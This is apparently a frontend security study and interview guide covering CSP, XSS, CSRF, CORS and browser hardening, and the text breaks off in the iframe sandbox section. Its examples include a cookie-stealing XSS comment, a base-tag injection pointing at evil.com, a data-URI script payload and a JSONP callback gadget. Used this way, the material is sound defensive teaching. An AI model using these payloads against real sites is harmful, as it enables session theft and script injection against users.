


## Table of Contents

[🧠 **View Interactive Mindmap**](./web-security-csp-owasp-mindmap.md)

1. [TL;DR](#tldr)
2. [Deep Dive](#deep-dive)
   2.1 [Strict CSP — Directives & Strategy](#concept-group-1-strict-csp--directives--strategy)
       2.1.1 [The Directive Cheat Sheet](#the-directive-cheat-sheet)
       2.1.2 [Nonces vs Hashes vs `strict-dynamic`](#nonces-vs-hashes-vs-strict-dynamic)
       2.1.3 [`Report-Only` & the Reporting API](#report-only--the-reporting-api)
       2.1.4 [Trusted Types as a CSP Directive](#trusted-types-as-a-csp-directive)
       2.1.5 [Common CSP Bypasses](#common-csp-bypasses)
   2.2 [XSS — Taxonomy & Prevention](#concept-group-2-xss--taxonomy--prevention)
       2.2.1 [The Three XSS Types](#the-three-xss-types)
       2.2.2 [Output Encoding by Context](#output-encoding-by-context)
       2.2.3 [DOMPurify — Sanitization Done Right](#dompurify--sanitization-done-right)
       2.2.4 [Angular's Built-In XSS Defenses](#angulars-built-in-xss-defenses)
   2.3 [CSRF & Cross-Origin Defenses](#concept-group-3-csrf--cross-origin-defenses)
       2.3.1 [`SameSite` Cookie — Strict, Lax, None](#samesite-cookie--strict-lax-none)
       2.3.2 [CSRF Token Patterns](#csrf-token-patterns)
       2.3.3 [Origin & Fetch Metadata Headers](#origin--fetch-metadata-headers)
       2.3.4 [CORS — Common Misconfigurations](#cors--common-misconfigurations)
   2.4 [Browser Surface Hardening](#concept-group-4-browser-surface-hardening)
       2.4.1 [Subresource Integrity (SRI)](#subresource-integrity-sri)
       2.4.2 [Iframe `sandbox`, COOP, COEP, CORP](#iframe-sandbox-coop-coep-corp)
       2.4.3 [`Permissions-Policy` (formerly Feature-Policy)](#permissions-policy-formerly-feature-policy)
       2.4.4 [`Referrer-Policy` & Information Leakage](#referrer-policy--information-leakage)
   2.5 [OWASP Top 10 — Frontend View](#concept-group-5-owasp-top-10--frontend-view)
       2.5.1 [A03 Injection (XSS) & A07 ID/Auth Failures](#a03-injection-xss--a07-idauth-failures)
       2.5.2 [A02 Cryptographic Failures (Frontend Storage)](#a02-cryptographic-failures-frontend-storage)
       2.5.3 [A05 Security Misconfiguration (Headers, CORS)](#a05-security-misconfiguration-headers-cors)
       2.5.4 [A06 Vulnerable Components (Supply Chain)](#a06-vulnerable-components-supply-chain)
3. [Architecture & Data Flow](#architecture--data-flow)
4. [Real-World Examples](#real-world-examples)
5. [Comparison Tables](#comparison-tables)
6. [Interview Q&A](#interview-qa)
   6.1 [L1: Junior](#l1-junior-knowledge)
   6.2 [L2: Mid-Level](#l2-mid-level-knowledge)
   6.3 [L3: Senior](#l3-senior-knowledge)
   6.4 [Staff: System Architecture](#staff-system-architecture)
7. [Cross-References](#cross-references)
8. [Further Reading](#further-reading)

---

## TL;DR

Frontend security in 2026 is a layered stack — no single defense is enough. <span style="color: #33b5e5; font-weight: bold;">Strict CSP</span> with `'strict-dynamic'`, nonces, and `'self'` is the foundation; <span style="color: #33b5e5; font-weight: bold;">Trusted Types</span> closes DOM-XSS sinks at the platform level; <span style="color: #33b5e5; font-weight: bold;">DOMPurify</span> handles user-supplied HTML; `SameSite=Strict` cookies + Origin checks defeat CSRF; SRI + Permissions-Policy + COOP/COEP harden the browser surface; and OWASP discipline keeps the supply chain clean. SWBC's <span style="color: #00C851; font-weight: bold;">zero-violation CSP</span> means **no `'unsafe-inline'`, no `'unsafe-eval'`, no nonces-on-style** — every script and style ships build-time-compiled from `'self'`. The senior trade-off you must articulate: strict CSP is a forcing function on architecture (no Material's CDK Overlay, no runtime CSS-in-JS, no third-party widgets that inject inline styles), and the discipline is paid back in mathematical elimination of XSS as a vulnerability class. This is the rare-skill differentiator: most "senior frontend" engineers cannot name 6 CSP directives or explain why hash-based works for inline scripts but breaks for inline styles in modern frameworks.

---

## Deep Dive

### Concept Group 1: Strict CSP — Directives & Strategy

#### The Directive Cheat Sheet

##### What
A <span style="color: #33b5e5; font-weight: bold;">Content Security Policy</span> is an HTTP response header (`Content-Security-Policy: ...`) that allow-lists where every kind of resource can come from. The directives are the vocabulary you must know cold.

##### Why
Without explicit directives you ship the browser default — anything can load anything. With them, you mathematically eliminate entire classes of attack: data exfiltration via injected `` requests, code execution via attacker-controlled `<script>`, click-jacking via attacker iframes.

##### How — The 12 Directives Worth Memorizing

| Directive | What It Controls | Strict Recommendation |
|---|---|---|
| `default-src` | Fallback for unspecified directives | `'self'` |
| `script-src` | JS sources (`<script>`, inline, `eval`) | `'self' 'strict-dynamic' 'nonce-{random}'` |
| `style-src` | CSS sources (`<style>`, `<link>`, `style=`) | `'self'` (no `unsafe-inline`) |
| `img-src` | Image sources | `'self' data:` |
| `font-src` | Font sources | `'self'` |
| `connect-src` | XHR / fetch / WebSocket / EventSource | `'self' wss://api.example.com` |
| `frame-src` | Iframe sources | `'none'` unless needed |
| `frame-ancestors` | Who can embed YOU in an iframe | `'none'` (replaces `X-Frame-Options`) |
| `form-action` | Where forms can submit | `'self'` |
| `base-uri` | Allowed `<base href>` values | `'self'` (prevents base-tag hijack) |
| `object-src` | `<object>`, `<embed>`, `<applet>` | `'none'` (Flash/Java are dead) |
| `report-to` / `report-uri` | Violation reporting endpoint | always set |

```http
Content-Security-Policy:
  default-src 'self';
  script-src 'self' 'strict-dynamic' 'nonce-r4nd0m';
  style-src 'self';
  img-src 'self' data: https://cdn.example.com;
  connect-src 'self' wss://realtime.example.com;
  frame-ancestors 'none';
  base-uri 'self';
  object-src 'none';
  form-action 'self';
  report-to csp-endpoint;
```

##### When
Every web app, every environment. Adjust strictness by data sensitivity (Fintech ≠ marketing site), but no production app should ship without a CSP.

##### Trade-offs
<span style="color: #ff4444; font-weight: bold;">`'unsafe-inline'` defeats the entire policy</span> for scripts. <span style="color: #ffbb33; font-weight: bold;">Wildcards in `script-src` (`https:` or `*.cdn.com`)</span> are bypassable via JSONP endpoints on the allowed origin (see "Common CSP Bypasses"). `frame-ancestors 'none'` is the modern replacement for `X-Frame-Options: DENY` — set it explicitly even if your CDN sets the legacy header.

---

#### Nonces vs Hashes vs `strict-dynamic`

##### What
Three strategies to allow specific inline or dynamically-injected scripts without falling back to `'unsafe-inline'`.

| Strategy | Mechanism | Use Case |
|---|---|---|
| **Hash** | `'sha256-{base64}'` lists allowed inline content by content hash | Static, known-at-build-time inline scripts/styles |
| **Nonce** | `'nonce-{random}'` per response; matching `<script nonce="{same}">` | Dynamic per-request inline (SSR with random tokens) |
| **`strict-dynamic`** | One trusted bootstrap script can transitively load others | SPAs, especially after the initial HTML loads |

##### Why
Modern frameworks (Angular, React SSR, Next.js) inject script tags at runtime. Hashing requires you to know every script at build time — fragile. Nonces let the server inject a random value once per response and reuse it. `'strict-dynamic'` says "trust whatever the nonce-marked script loads next, transitively" — this is the 2026 default for SPAs.

##### How

**Nonce-based:**
```html
<!-- Server generates a fresh random per response -->
<!-- Header: script-src 'self' 'nonce-r4nd0m'; -->
<script nonce="r4nd0m">/* allowed inline */</script>
<script nonce="r4nd0m" src="/main.js"></script>
```

**Hash-based:**
```http
script-src 'self' 'sha256-abc123...' 'sha256-def456...';
```
```html
<!-- Browser computes SHA-256 of the inline content; must match -->
<script>console.log('hello');</script>
```

**`strict-dynamic`:**
```http
script-src 'self' 'strict-dynamic' 'nonce-r4nd0m';
```
The nonce-marked script can `document.createElement('script')` and load further scripts; they inherit trust. Wildcards and `'self'` are IGNORED when `'strict-dynamic'` is present in modern browsers — only nonce/hash propagation matters.

##### When
- **Hash** for SSR-generated static inline (rare in SPAs)
- **Nonce** for any inline script the server controls per-response
- **`strict-dynamic`** as the default for SPAs that load chunks dynamically (Angular Webpack, Vite, etc.)
- <span style="color: #00C851; font-weight: bold;">SWBC zero-violation CSP avoided ALL THREE</span> by ensuring zero inline scripts and zero inline styles at the source — pure `'self'` with build-time bundling

##### Trade-offs
<span style="color: #ffbb33; font-weight: bold;">Nonces require server-side rendering</span> — pure static HTML can't generate per-response nonces. <span style="color: #ff4444; font-weight: bold;">Hashing inline styles in modern frameworks is impractical</span> — Angular Material, MUI, etc. inject hundreds of unique style hashes per page. <span style="color: #ffbb33;">`strict-dynamic` only applies to scripts</span>; styles still need their own strategy. The cleanest path is "no inline at all" — what SWBC achieved.

---

#### `Report-Only` & the Reporting API

##### What
`Content-Security-Policy-Report-Only` runs the policy without enforcing it — violations are reported but not blocked. The Reporting API delivers structured violation reports to a configured endpoint.

##### Why
Rolling out a strict CSP to a legacy app cold means breakage. Report-Only mode lets you measure the gap between current behavior and the target policy for weeks before flipping enforcement on.

##### How
```http
Content-Security-Policy-Report-Only:
  default-src 'self';
  script-src 'self' 'strict-dynamic' 'nonce-r4nd0m';
  report-to csp-endpoint;

Reporting-Endpoints: csp-endpoint="https://example.com/csp-reports"
```

The browser POSTs JSON to the endpoint:
```json
{
  "type": "csp-violation",
  "url": "https://example.com/dashboard",
  "body": {
    "blockedURL": "inline",
    "violatedDirective": "script-src",
    "documentURL": "https://example.com/dashboard",
    "lineNumber": 42,
    "sourceFile": "https://example.com/main.js"
  }
}
```

##### When
Any time you change CSP. Two-phase rollout: deploy as Report-Only for 2-4 weeks → review violations → fix legitimate breakage → flip to enforce.

##### Trade-offs
<span style="color: #ffbb33;">Browser extensions cause noisy violations</span> — they inject scripts; expect 30-50% of reports to be extension-origin. Filter by `sourceFile` containing `chrome-extension://` or `moz-extension://`. <span style="color: #ff4444;">Don't deploy Report-Only forever</span> — without enforcement, you have no protection. Use it as a migration tool, not a permanent state.

---

#### Trusted Types as a CSP Directive

##### What
`require-trusted-types-for 'script'` is a CSP directive that turns DOM-XSS sinks (`innerHTML`, `eval`, `document.write`, `setTimeout(string)`, etc.) into compile-time errors unless the value passes through a registered Trusted Type policy.

##### Why
Even with strict CSP, a developer can write `el.innerHTML = userInput` — the input becomes executable HTML. CSP `script-src` doesn't catch this because the script isn't loaded; it's *parsed from a string assignment*. Trusted Types makes the assignment itself fail at the platform level.

##### How
```http
Content-Security-Policy:
  require-trusted-types-for 'script';
  trusted-types my-app-policy;
```

```typescript
// One-time policy registration (typically in app bootstrap)
const policy = trustedTypes.createPolicy('my-app-policy', {
  createHTML: (input: string) => DOMPurify.sanitize(input, { RETURN_TRUSTED_TYPE: true }),
  createScript: () => { throw new Error('No dynamic scripts allowed'); },
  createScriptURL: (input) => {
    if (!input.startsWith(window.location.origin)) throw new Error('Cross-origin scripts blocked');
    return input;
  },
});

// Now the only way to set innerHTML is through the policy
const safe = policy.createHTML(userMarkdown);
element.innerHTML = safe;  // works
element.innerHTML = userMarkdown;  // throws TypeError at runtime
```

##### When
Greenfield apps; any app that handles untrusted markdown, rich-text input, embed snippets. <span style="color: #00C851; font-weight: bold;">`tai-portal` has a `tai-security-policy`</span> registered globally for exactly this reason.

##### Trade-offs
<span style="color: #ffbb33;">Browser support gap</span> — Chrome/Edge yes, Firefox behind a flag, Safari incomplete. Roll out in Report-Only first, with feature detection. <span style="color: #ff4444;">Every `innerHTML` write becomes a compile error</span> — third-party libraries that use `innerHTML` internally need either a policy hook or migration. Some libraries (older jQuery plugins) won't work.

---

#### Common CSP Bypasses

##### What
A "compliant" CSP isn't the same as a strict CSP. Five classic bypasses senior interviewers probe:

##### How

**1. JSONP endpoints on allow-listed origins.**
If `script-src 'self' https://apis.google.com` is set, an attacker who can inject a `<script>` tag points to `https://apis.google.com/jsonp?callback=alert`. JSONP is a script-injection feature by design.
Fix: prefer `'strict-dynamic'`; avoid wildcard hosts.

**2. AngularJS / framework gadgets.**
If your CSP allows the framework's CDN and a vulnerable version is loaded, attacker can use the framework's own templating or expression evaluation as XSS. Search "CSP bypass + framework name" for known gadgets.
Fix: keep dependencies patched; pin to known-clean versions.

**3. `<base>` tag injection.**
If `base-uri` is missing, an attacker who can inject `<base href="//evil.com/">` redirects every relative URL load (including scripts and stylesheets that pass `'self'`).
Fix: always set `base-uri 'self'`.

**4. Dangling markup / file upload.**
If your origin allows file uploads that serve as `text/html`, an attacker uploads a malicious HTML file and embeds it via `<iframe src="/uploads/x.html">`. CSP allows the iframe because `'self'`.
Fix: serve uploads from a separate origin (`uploads.example.com`) with `Content-Disposition: attachment` and restrict their CSP.

**5. `data:` and `blob:` URIs.**
If `script-src 'self' data:`, an attacker constructs `data:application/javascript,alert(1)` and injects it. Never allow `data:` in `script-src`.
Fix: `data:` only in `img-src` and `font-src`, never in `script-src` or `object-src`.

##### Trade-offs
<span style="color: #ff4444; font-weight: bold;">"It passes the CSP Evaluator" ≠ secure</span>. Run [Google's CSP Evaluator](https://csp-evaluator.withgoogle.com/) but read the threat model — they grade against known bypasses, not custom logic on your site.

---

### Concept Group 2: XSS — Taxonomy & Prevention

#### The Three XSS Types

##### What
| Type | Where Payload Lives | Trigger |
|---|---|---|
| **Stored (Persistent)** | Database, file, cache | Any user views the content |
| **Reflected** | URL parameter, form submission | User clicks a crafted link |
| **DOM-based** | Never touches server; pure client-side | URL fragment, `postMessage`, browser API |

##### Why Distinguish?
The defense layer differs:
- Stored — server-side sanitization on **input** + output encoding on display
- Reflected — output encoding + (useless) server input validation; the URL is attacker-controlled
- DOM — pure browser-side; server can't help; only Trusted Types and careful sink usage prevent it

##### How — One Example Each

**Stored:** user posts comment containing `<script>fetch('/api/leak?cookie='+document.cookie)</script>`. Saved to DB. Every viewer of the comment runs it.

**Reflected:** search page shows "No results for `<term>`". Attacker sends victim a link to `/search?q=<script>...</script>`. Victim clicks, server reflects the term unencoded into HTML. Single-victim attack (until shared via phishing).

**DOM-based:** `<script>document.write(location.hash)</script>`. Attacker links to `#`. The malicious payload never reaches the server; pure client-side execution.

##### Trade-offs
<span style="color: #ff4444;">DOM-XSS is invisible to server-side WAFs</span> because the payload never appears in HTTP requests (the fragment after `#` is not sent to the server). Trusted Types is the only complete defense.

---

#### Output Encoding by Context

##### What
The same string is dangerous in different ways depending on where it's inserted. **Encoding must match the context.**

##### Five Contexts to Memorize

| Context | Threat | Correct Encoding |
|---|---|---|
| **HTML body** | `<script>` tags | HTML entity encode: `<` → `&lt;` |
| **HTML attribute** | `" onmouseover="..."` | Attribute encode + always quote: `"` → `&quot;` |
| **JavaScript** | string-break out of context | JS string encode (Unicode escapes); avoid putting user data in JS at all |
| **URL** | `javascript:` scheme | URL encode + scheme allowlist (`http:`, `https:`, `mailto:` only) |
| **CSS** | expression() / url() injection | CSS escape + allowlist; never reflect user input into CSS |

```typescript
// WRONG — same string, treated three different ways:
element.innerHTML = `<a href="${url}">${name}</a>`;
// 1. ${url} unencoded → href="javascript:alert(1)" runs on click
// 2. ${name} unencoded → name="<script>..." executes
// 3. URL context AND HTML attribute context — needs both encodings

// RIGHT — encode for the specific context
const safeHref = sanitizeUrl(url);          // scheme allowlist + URL encode
const safeName = escapeHtml(name);
element.innerHTML = `<a href="${safeHref}">${safeName}</a>`;
```

##### When
Always. Frameworks (Angular, React, Vue) auto-encode in their template syntax — the danger is when you bypass them (`innerHTML`, `[innerHTML]`, `dangerouslySetInnerHTML`, raw HTML strings).

##### Trade-offs
<span style="color: #ff4444;">Single-pass encoding is wrong for nested contexts</span>. URL inside an HTML attribute needs URL-encode then HTML-encode the result. Most XSS in 2026 is at the boundary where developers write raw template strings instead of using framework binding.

---

#### DOMPurify — Sanitization Done Right

##### What
<span style="color: #33b5e5; font-weight: bold;">DOMPurify</span> is the de-facto standard library for sanitizing untrusted HTML. It parses the input via the browser's own DOM (or jsdom server-side), strips disallowed elements/attributes, and returns clean HTML.

##### Why
Hand-rolled regex sanitizers always lose. Browsers tolerate weird HTML (`<scr<script>ipt>`), allow case variants, accept SVG with embedded scripts, parse mismatched quotes — your regex won't catch all of it. DOMPurify uses the same parser the browser uses; what it strips, the browser would have parsed identically.

##### How — Key Configuration Options
```typescript
import DOMPurify from 'dompurify';

// Default: strips scripts, on* attrs, javascript: URLs — safe for most cases
const clean = DOMPurify.sanitize(userMarkdown);

// Tightly scoped: only allow basic formatting in a comment
const comment = DOMPurify.sanitize(userInput, {
  ALLOWED_TAGS: ['b', 'i', 'em', 'strong', 'a', 'br', 'p'],
  ALLOWED_ATTR: ['href', 'title'],
  ALLOWED_URI_REGEXP: /^(?:https?|mailto):/i,  // no javascript:, no data:
});

// Trusted Types integration
const policy = trustedTypes.createPolicy('my-policy', {
  createHTML: (input) => DOMPurify.sanitize(input, { RETURN_TRUSTED_TYPE: true }),
});
element.innerHTML = policy.createHTML(userInput);   // type-safe
```

##### Common Use Cases
- Markdown rendered from user input
- Email body display (after parsing, before render)
- Rich text editor output
- Any `[innerHTML]` binding in Angular for non-trusted sources

##### Trade-offs
<span style="color: #ffbb33;">DOMPurify versions matter</span> — historic versions had bypasses; pin and patch quickly when CVEs land. <span style="color: #ff4444;">`SAFE_FOR_TEMPLATES` is not enough</span> — it sanitizes for AngularJS/Mustache template syntax, not general HTML; use the default mode for HTML insertion. <span style="color: #ffbb33;">Bundle size ~50KB</span> — load it lazily for routes that need it, not on the critical path.

---

#### Angular's Built-In XSS Defenses

##### What
Angular automatically encodes interpolations and attribute bindings — `{{ value }}` and `[attr]="value"` are XSS-safe. Three escape hatches exist for cases where you DO want raw HTML/URLs/scripts; understanding them is L2 material.

##### How — The Five `SecurityContext`s

```typescript
import { DomSanitizer, SecurityContext } from '@angular/platform-browser';

// 1. HTML — inserted via [innerHTML]
this.sanitizer.sanitize(SecurityContext.HTML, userInput);

// 2. STYLE — inserted via [style]
this.sanitizer.sanitize(SecurityContext.STYLE, userInput);

// 3. URL — inserted via [href], [src]
this.sanitizer.sanitize(SecurityContext.URL, userInput);

// 4. RESOURCE_URL — inserted via <script src>, <iframe src> (most dangerous)
this.sanitizer.sanitize(SecurityContext.RESOURCE_URL, userInput);

// 5. SCRIPT — never auto-sanitized; must be explicitly bypassed
```

```typescript
// THE RED FLAG: bypassSecurityTrust* functions
this.sanitizer.bypassSecurityTrustHtml(userInput);          // ← review every use
this.sanitizer.bypassSecurityTrustResourceUrl(userInput);   // ← especially this
```

##### Common Pitfalls
- **`[innerHTML]` of unsanitized input** — Angular sanitizes by default, but if the input is already a `SafeHtml` (from `bypassSecurityTrustHtml`), Angular trusts it. Audit every `bypassSecurityTrust*` call.
- **`[src]="dynamicUrl"` on iframe** — RESOURCE_URL context, Angular won't sanitize at runtime; you must validate the URL yourself.
- **DomSanitizer.sanitize() called with attacker-controlled input** — fine, that's its job; the danger is `bypassSecurityTrust*`.

##### When
- Use Angular's default binding for 99% of cases — `{{ value }}`, `[innerText]`, `[textContent]` are always safe
- Use `[innerHTML]` only with sanitized input (Angular will sanitize automatically unless you bypass)
- Reach for `bypassSecurityTrust*` only after manual sanitization (e.g., DOMPurify), and only for trusted contexts

##### Trade-offs
<span style="color: #ff4444;">`bypassSecurityTrust*` is the most-misused Angular API</span> — devs reach for it to "fix" rendering issues without understanding what they're disabling. Lint rule: ban it except in a security review allowlist.

---

### Concept Group 3: CSRF & Cross-Origin Defenses

#### `SameSite` Cookie — Strict, Lax, None

##### What
The `SameSite` cookie attribute controls when the browser sends a cookie with cross-origin requests.

| Value | Sent on Same-Site | Sent on Cross-Site Top-Level Nav | Sent on Cross-Site Subresource (img, fetch) |
|---|---|---|---|
| `Strict` | ✅ | ❌ | ❌ |
| `Lax` (default 2026) | ✅ | ✅ (only safe methods: GET, HEAD) | ❌ |
| `None; Secure` | ✅ | ✅ | ✅ |

##### Why
`SameSite` is the modern primary CSRF defense. With `Strict` or `Lax` (now the default in Chrome/Firefox/Safari), an attacker on `evil.com` cannot make the browser send your cookie via a cross-site form submission or fetch.

##### How
```http
Set-Cookie: session=abc123; HttpOnly; Secure; SameSite=Strict; Path=/
```

##### When to Use Each
- **`Strict`** — internal tools, banking, anything where deep links from external sites don't need auth (user follows a link → not logged in → re-authenticates). Maximum security.
- **`Lax`** — most B2B/B2C apps. Deep links work (top-level GET sends cookie); cross-site subresources don't.
- **`None; Secure`** — only for cookies that genuinely need to ride along on cross-site requests (third-party SSO, embedded widgets). Requires `Secure` (HTTPS only).

##### Trade-offs
<span style="color: #ff4444;">`SameSite=Strict` breaks the "logged in via deep link" UX</span> — user clicks `https://yourapp.com/dashboard` from email and lands logged out. Acceptable for security-critical apps; annoying for everyday SaaS. <span style="color: #ffbb33;">`SameSite=None` without `Secure` is rejected by modern browsers</span> — can't have cross-site without HTTPS.

---

#### CSRF Token Patterns

##### What
Even with `SameSite`, defense-in-depth says protect endpoints with explicit CSRF tokens. Three patterns:

| Pattern | How | Use For |
|---|---|---|
| **Synchronizer Token** | Server stores random token in session; renders into form; validates on submit | Server-rendered HTML forms (Razor, JSP) |
| **Double-Submit Cookie** | Server sets `XSRF-TOKEN` cookie; client copies into custom header on requests; server validates match | SPAs with cookie auth |
| **Custom Request Header** | Require `X-Requested-With: XMLHttpRequest` (or any custom header); CSRF can't set custom headers cross-origin | Lightweight; relies on CORS preflight semantics |

##### How — Double-Submit (Angular's default)
```typescript
// Server sets:
// Set-Cookie: XSRF-TOKEN=abc123; Path=/; SameSite=Strict; Secure

// Angular's HttpClient automatically reads the cookie and adds X-XSRF-TOKEN header
// to non-GET requests. Server validates: header == cookie value.
```

```typescript
// Manual setup if not using Angular's built-in
provideHttpClient(withXsrfConfiguration({
  cookieName: 'XSRF-TOKEN',
  headerName: 'X-XSRF-TOKEN',
}));
```

##### Why Custom Headers Work
Cross-origin requests with custom headers (anything beyond [CORS-safelisted](https://developer.mozilla.org/en-US/docs/Glossary/CORS-safelisted_request_header) headers) trigger a preflight `OPTIONS` request. The preflight requires `Access-Control-Allow-Headers` to include the custom header. An attacker on `evil.com` can't make the browser send a custom header to your origin without you explicitly allowing the cross-origin headers — by default, you don't.

##### When
- SameSite cookies are the primary defense; CSRF tokens are belt-and-suspenders
- For cookie-auth SPAs, double-submit is the standard pattern
- DPoP-based auth (`tai-portal` REST APIs) has built-in sender-constraint — no separate CSRF needed; the DPoP proof IS the CSRF defense

##### Trade-offs
<span style="color: #ffbb33;">Double-submit assumes the attacker can't read or set cookies cross-origin</span> — true with `SameSite`, but if you have a subdomain takeover risk, the protection collapses. <span style="color: #ff4444;">Synchronizer tokens require server-side session state</span> — harder to scale than stateless approaches.

---

#### Origin & Fetch Metadata Headers

##### What
Modern browsers send headers describing the request's origin and intent. Servers can validate these for cross-origin protection without tokens.

| Header | What It Tells the Server |
|---|---|
| `Origin` | Origin of the page that initiated the request |
| `Sec-Fetch-Site` | `same-origin` / `same-site` / `cross-site` / `none` |
| `Sec-Fetch-Mode` | `cors` / `navigate` / `no-cors` / `same-origin` / `websocket` |
| `Sec-Fetch-Dest` | `document` / `image` / `script` / `font` / `style` / etc. |
| `Sec-Fetch-User` | `?1` if request was triggered by user interaction |

##### How — Server-Side Origin Check
```csharp
// Reject any state-changing request not from our own origin
var origin = context.Request.Headers["Origin"].ToString();
var allowed = new[] { "https://app.example.com" };
if (!allowed.Contains(origin) &&
    context.Request.Method is "POST" or "PUT" or "DELETE") {
  context.Response.StatusCode = 403;
  return;
}
```

##### Fetch Metadata Defense (Resource Isolation Policy)
```csharp
// Block any request that:
//   - is NOT same-origin AND NOT a top-level navigation,
//   - OR is a navigation with destination "object" or "embed"
var site = context.Request.Headers["Sec-Fetch-Site"].ToString();
var mode = context.Request.Headers["Sec-Fetch-Mode"].ToString();
var dest = context.Request.Headers["Sec-Fetch-Dest"].ToString();

if (site is not ("same-origin" or "same-site" or "none") &&
    mode != "navigate") {
  context.Response.StatusCode = 403;
  return;
}
if (dest is "object" or "embed") {
  context.Response.StatusCode = 403;
  return;
}
```

##### When
Use as a layer on top of `SameSite` and CSRF tokens. Particularly effective for blocking entire categories of attack (Spectre-style cross-origin reads, click-jacking via embed).

##### Trade-offs
<span style="color: #ffbb33;">Older browsers don't send Sec-Fetch-*</span> — fall back to `Origin` checks. Don't rely on Sec-Fetch alone.

---

#### CORS — Common Misconfigurations

##### What
CORS is often misunderstood as a security feature. It is **not**. It's a same-origin-policy *relaxation* mechanism. Misconfigured CORS opens doors that the same-origin policy was closing.

##### The Five Common Mistakes

| Mistake | Why It's Bad |
|---|---|
| `Access-Control-Allow-Origin: *` with credentials | Browsers refuse this combination — won't even work; if you "made it work," you're echoing `Origin` (next item) |
| Reflecting the request's `Origin` header without validation | Any origin can read your authenticated responses |
| Allowing `*.yourcompany.com` via regex without subdomain audit | A compromised subdomain (forgotten test app) becomes a bridge |
| Allowing all methods/headers (`Access-Control-Allow-Methods: *`) | Expands attack surface unnecessarily |
| Setting CORS on the wrong server (gateway forwards but backend also sets) | Conflicting headers; unpredictable behavior |

##### How — Correct Pattern
```csharp
// Configuration-driven allow list (not hardcoded, not reflective)
var allowedOrigins = builder.Configuration.GetSection("Cors:AllowedOrigins").Get<string[]>();

builder.Services.AddCors(options => {
  options.AddDefaultPolicy(policy => {
    policy.WithOrigins(allowedOrigins)         // explicit list
          .AllowAnyHeader()
          .WithMethods("GET", "POST", "PUT", "DELETE")
          .AllowCredentials();                 // requires explicit origin (no *)
  });
});
```

##### Trade-offs
<span style="color: #ff4444;">CORS is not a CSRF defense</span> — common misconception. CSRF attacks via simple form POSTs don't trigger CORS preflight; the browser sends the request anyway and just hides the response from JavaScript. The malicious side-effect (state change on the server) already happened. CSRF tokens or `SameSite` cookies are the actual defense.

---

### Concept Group 4: Browser Surface Hardening

#### Subresource Integrity (SRI)

##### What
The `integrity` attribute on `<script>` and `<link>` makes the browser verify a SHA hash of the loaded resource before executing it. If a CDN is compromised and the file changes, the browser refuses to execute.

##### How
```html
<script src="https://cdn.example.com/lib.js"
        integrity="sha384-oqVuAfXRKap7fdgcCY5uykM6+R9GqQ8K/uxy9rx7HNQlGYl1kPzQho1wx4JwY8wC"
        crossorigin="anonymous"></script>
```

##### When
Any externally-hosted JS/CSS, especially from CDNs you don't fully control. Build tools (Webpack, Vite) can generate `integrity` hashes automatically for your own bundle's chunks.

##### Trade-offs
<span style="color: #ffbb33;">Breaks legitimate CDN updates</span> — if the CDN replaces the file, your hash mismatches and your app breaks. Pin to a specific version URL (`/lib@1.2.3.js`) to avoid this.

---

#### Iframe `sandbox`, COOP, COEP, CORP

##### What
Four headers/attributes for hardening iframe and cross-origin isolation:

| Mechanism | Purpose |
|---|---|
| `<iframe sandbox="...">` | Restrict what the iframe content can do (no scripts, no forms, no popups, etc.) |
| `Cross-Origin-Opener-Policy` (COOP) | Prevent cross-origin windows from accessing yours |
| `Cross-Origin-Embedder-Policy` (COEP) | Require cross-origin resources to opt-in to being loaded |
| `Cross-Origin-Resource-Policy` (CORP) | Restrict which origins can load your resources |

##### How — Iframe Sandbox
```html
<!-- Default: maximally restrictive (no scripts, no forms, no top-nav, etc.) -->
<iframe sandbox src="..."></iframe>

